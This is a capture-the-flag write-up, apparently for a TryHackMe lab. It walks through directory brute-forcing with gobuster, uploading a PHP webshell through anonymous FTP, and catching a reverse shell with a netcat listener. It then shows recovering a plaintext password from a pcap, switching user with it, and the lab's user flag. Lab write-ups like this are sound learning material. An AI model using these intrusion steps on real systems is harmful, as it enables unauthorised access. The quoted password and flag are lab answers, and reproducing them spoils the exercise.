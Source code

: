 ```bash
gobuster dir -u http://10.10.226.32 -w /usr/share/wordlists/dirb/common.txt -t 5
# found: /files (301 -> /files/)
```

Checked `http://10.10.226.32/files` and discovered an FTP area accessible via HTTP link: `/files/ftp/`.

---

## Foothold — Anonymous FTP upload + webshell

1. Connected to FTP anonymously and uploaded a PHP webshell into the `ftp` directory:

```text
ftp 10.10.226.32
# Login: anonymous
# put shell.php -> /files/ftp/shell.php
```

2. Triggered the webshell to get a reverse shell back to my machine (listening on port 4444). After connection:

```bash
nc -lnvp 4444
# got a connection from 10.10.226.32
# on shell: python3 -c "import pty;pty.spawn('/bin/bash')"
# became www-data
```

---

## Discovery — pcap & secrets

While on the machine as `www-data`, I inspected `/incidents` and found `suspicious.pcapng`. I copied it to my host and analyzed with Wireshark/tshark.

Key findings:

* The pcap contained plaintext credentials that allowed `su` to `lennie`:

  ```
  c4ntg3t3n0ughsp1c3
  ```

Used that password:

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
```

Once `su` succeeded, I had an interactive shell as `lennie`. I retrieved the user flag:

```bash
cat /home/lennie/user.txt
# THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

---